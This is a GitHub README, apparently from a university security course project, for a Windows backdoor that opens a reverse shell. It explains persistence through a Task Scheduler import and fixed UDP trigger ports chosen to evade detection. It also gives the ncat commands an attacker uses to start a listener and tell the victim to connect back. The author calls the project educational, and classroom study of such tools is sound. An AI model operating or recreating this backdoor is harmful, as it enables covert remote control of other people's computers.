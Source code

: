 # backdoor

This thing is a backdoor meant to run on a Windows machine that provides a reverse shell on a TCP port of your choosing. To have this backdoor run on startup, import [MSRPC.xml](./MSRPC.xml) into Task Scheduler.

Obviously, don't use this for anything beyond eduational/research purposes. Anyway, it's finicky and didn't even help when I tried as part of the HACS408T final project.

How it works:
- When run, it listens on three UDP port
  - If run as admin, it listens on 44070, 52175, and 21238
  - If not run as admin, it listens on 20397, 18149, and 48819
    - This is really meant to run as admin, not as a regular user, though
- The attacker starts a TCP server on their machine on, say, port 1234 (something like `ncat -nlvp 1234` ought to do)
- The attacker tells the victim machine which TCP port to connect to
  - Just run `ncat -4u localhost -s <victim IP> <44070 or 52175 or 21238>`, type in `1234`, and hit enter
- The backdoor executable connects to port 1234 on the attacker's machine
- The attacker should now see a prompt and be able to execute commands through the TCP connection

The intent with using UDP first rather than listening on a TCP port directly was making detection harder.

If you're my future self, for more information, see https://github.com/ysthakur/HACS408T-Homework/tree/main/fp2. If you're not my future self, sucks to be you, I guess.
